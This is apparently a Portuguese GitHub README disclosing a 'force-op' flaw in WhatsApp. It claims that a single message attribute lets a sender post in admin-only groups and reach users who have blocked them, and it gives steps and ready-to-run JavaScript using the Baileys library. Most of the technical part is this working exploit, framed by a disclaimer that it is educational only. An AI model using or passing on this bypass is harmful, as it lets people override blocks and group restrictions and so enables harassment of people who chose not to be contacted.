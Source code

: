 # Falha "Force-Op" no WhatsApp

## Descrição

A falha chamada **"force-op"** foi detectada no WhatsApp e permite o envio de mensagens mesmo com restrições aplicadas. Essa vulnerabilidade afeta dois cenários principais:

1. **Grupos fechados para administradores:** 
   - Quando um grupo é configurado para permitir mensagens apenas de administradores, com essa falha, é possível enviar mensagens que aparecem para todos os membros do grupo.
   
2. **Usuários bloqueados:**
   - Mesmo quando um usuário bloqueia outro, o usuário bloqueado pode enviar mensagens e estas serão entregues normalmente à pessoa que o bloqueou.

## Detalhes Técnicos

Para explorar essa falha, é necessário adicionar o seguinte atributo à mensagem que será enviada:

```javascript
{ additionalAttributes: { edit: '7' } }
```

## Implementação

A exploração foi realizada utilizando a biblioteca [`@whiskeysockets/baileys`](https://github.com/WhiskeySockets/Baileys), que permite a automação de interações com o WhatsApp.

### Passos Executados

1. **Criação da Automação:**
   - Desenvolvi um script baseado na biblioteca `@whiskeysockets/baileys`.
   
2. **Identificação dos IDs:**
   - Usei o console do script para identificar:
     - O **ID do grupo fechado**.
     - O **ID do número que me bloqueou**.

3. **Envio de Mensagens:**
   - Adicionei os IDs na mensagem para direcionar o envio apenas para:
     - O grupo fechado.
     - O chat privado da pessoa que me bloqueou.
   - O envio foi realizado utilizando o atributo `additionalAttributes` mencionado anteriormente.

### Código de Exemplo

Aqui está um exemplo de como a mensagem foi configurada no script:

```javascript
const baileys = require('@whiskeysockets/baileys');

const sendMessage = async (connection, chatId, message) => {
    await connection.sendMessage(chatId, {
        text: message,
        additionalAttributes: {
            edit: '7',
        },
    });
};

// Envio de mensagem para o grupo fechado
sendMessage(connection, 'ID_DO_GRUPO', 'Mensagem para o grupo fechado');

// Envio de mensagem para um usuário que bloqueou
sendMessage(connection, 'ID_DO_USUÁRIO', 'Mensagem para o usuário que me bloqueou');
```

## Resultado

- Em **grupos fechados**, as mensagens foram entregues normalmente para todos os membros.
- Para **usuários que bloquearam**, as mensagens apareceram no chat do bloqueador como se fossem enviadas normalmente.

## Considerações

Essa falha pode causar problemas sérios relacionados à privacidade e ao controle de comunicação no WhatsApp. Recomenda-se que o WhatsApp investigue e corrija essa vulnerabilidade o mais rápido possível.

## Observação

Este documento foi criado apenas com fins educacionais e para alertar sobre a falha encontrada. **Não incentivamos o uso mal-intencionado desta vulnerabilidade.**
